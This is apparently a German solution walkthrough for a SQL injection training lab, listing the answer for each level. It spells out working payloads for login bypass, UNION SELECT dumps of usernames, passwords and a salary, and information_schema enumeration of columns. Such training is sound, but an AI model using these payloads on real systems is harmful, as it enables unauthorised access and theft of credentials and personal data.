 **Ziel:** Daten aus anderen Tabellen als "Benutzername" anzeigen

**Beispiel - Lohn von Greta Maria:**
```
' UNION SELECT lohn AS benutzername FROM mitarbeiter WHERE vorname = 'Greta Maria' --
```

## Level-spezifische Lösungen

### Level 1-5: Grundlegende Authentifizierung

**Problem:** Klassische Login-Formulare
**Lösung:** `' OR '1'='1' --` oder gezielter Login

### Level 6: Eingeschränkte Ergebnisse

**Problem:** Nur eine Zeile darf zurückgegeben werden
**Lösung:** Gezielter Login mit bekanntem Benutzernamen
```
alexamusterfrau' --
```

### Level 7: Produktsuche

**Problem:** Suche nach Schuhen der Marke 'Nicke'
**Lösung:** Einfache Eingabe ohne Injektion
```
Nicke
```

### Level 8: Datenextraktion

**Problem:** Alle Benutzernamen und Passwörter ausgeben
**Lösung:** UNION SELECT
```
' UNION SELECT benutzername, passwort FROM benutzer --
```

### Level 9: Metadaten-Abfrage

**Problem:** Spalten der Tabelle 'kunden' herausfinden
**Lösung:** Information Schema nutzen
```
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'kunden' --
```

### Level 10: URL-basierte Injektionen

**Problem:** Parameter in URL manipulieren
**Lösung:** Direkte Manipulation der URL
```
https://example.com/index.php?produkt_id=1
```

